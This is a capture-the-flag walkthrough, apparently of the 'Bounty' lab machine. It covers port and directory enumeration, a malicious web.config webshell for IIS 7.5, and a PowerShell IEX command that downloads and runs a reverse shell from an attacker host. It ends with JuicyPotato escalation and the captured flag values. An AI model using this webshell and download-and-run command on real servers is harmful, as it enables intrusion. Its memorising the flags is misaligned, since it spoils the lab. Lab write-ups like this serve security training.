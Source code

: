 # Enumeration
## Nmap
```bash
nmap -sC -sV -oA nmap/bounty 10.10.10.93

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: Bounty
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

## Port 80
```
gobuster dir -u http://10.10.10.93 -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -x asp,aspx
```

Finds:
```
/transfer.aspx
```

# Webshell
As its an old ISS server we can put code at the end of a web.config file and it will run:
```
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
Response.write(1+2)
Response.write("<!-"&"-")
%>
-->
```

POC works so time for shell:
```
Set cmd = rs.Exec("cmd.exe /c powershell.exe -c IEX (New-Object Net.Webclient).downloadstring('http://10.10.14.21/shell.ps1')")
```

Where shell.ps1 is nishangtcp rev shell

# Shell as merlin
user.txt
```
ef7f29f7568dd80ae257bfce57b61473
```


Juicypotato to a meterpreter bin.

root.txt:
```
2d24905054436f12a829bc8d6fb51ce9
```
